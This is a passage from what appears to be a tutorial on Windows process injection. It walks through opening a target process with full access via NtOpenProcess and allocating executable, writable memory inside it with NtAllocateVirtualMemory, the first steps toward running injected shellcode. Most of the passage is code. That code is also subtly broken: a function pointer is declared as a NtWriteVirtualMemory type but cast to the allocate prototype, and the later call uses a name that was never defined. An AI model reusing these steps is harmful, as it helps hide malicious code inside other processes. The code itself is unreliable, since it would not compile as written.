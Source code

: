```c
typedef struct _CLIENT_ID
{
	PVOID UniqueProcess;
	PVOID UniqueThread;
} CLIENT_ID, *PCLIENT_ID;

typedef struct _UNICODE_STRING {
	USHORT Length;
	USHORT MaximumLength;
	PWSTR  Buffer;
} UNICODE_STRING, *PUNICODE_STRING;


typedef struct _OBJECT_ATTRIBUTES {
	ULONG           Length;
	HANDLE          RootDirectory;
	PUNICODE_STRING ObjectName;
	ULONG           Attributes;
	PVOID           SecurityDescriptor;
	PVOID           SecurityQualityOfService;
} OBJECT_ATTRIBUTES, *POBJECT_ATTRIBUTES ;


OBJECT_ATTRIBUTES oa;
InitializeObjectAttributes(&oa, NULL,0,NULL,NULL);
CLIENT_ID ci = { (HANDLE)procid, NULL };
```
now we can use **NtOpenProcess**
```c
NtOpenProcess(&target_process_handle,PROCESS_ALL_ACCESS, &oa, &ci);
```
### NtAllocateVirtualMemory
we allocate memory in target process using the [NtAllocateVirtualMemory](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory) function. we define the function prototype. 
```c
typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(HANDLE ProcessHandle, PVOID *BaseAddress, ULONG_PTR ZeroBits, PSIZE_T RegionSize, ULONG AllocationType, ULONG Protect);
```
then we get the base address of the function.
```c
pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
```
and we call it
```c
NtAllocateVirtualMemory(target_process_handle, &remote_process_buffer, 0,&buf_len ,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
we passed a void pointer named **remote_process_buffer** that will be the base address of the allocated space.
